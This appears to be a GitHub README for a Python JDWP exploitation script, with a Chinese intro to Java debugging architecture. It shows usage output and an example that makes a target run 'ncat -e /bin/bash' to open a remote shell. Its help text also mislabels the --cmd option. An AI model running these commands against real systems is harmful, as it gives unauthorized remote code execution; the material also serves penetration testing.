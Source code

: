 
简要描述：
JPDA(Java Platform Debugger Architecture) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。JPDA 主要由三个部分组成：Java虚拟机工具接口（JVMTI），Java 调试线协议（JDWP），以及 Java 调试接口（JDI）

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.


## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python jdwp.py -h
	usage: jdwp.py [-h] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by 老夫开车怕过谁
    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

To target a specific host/port:

	$ python jdwp.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python jdwp.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 







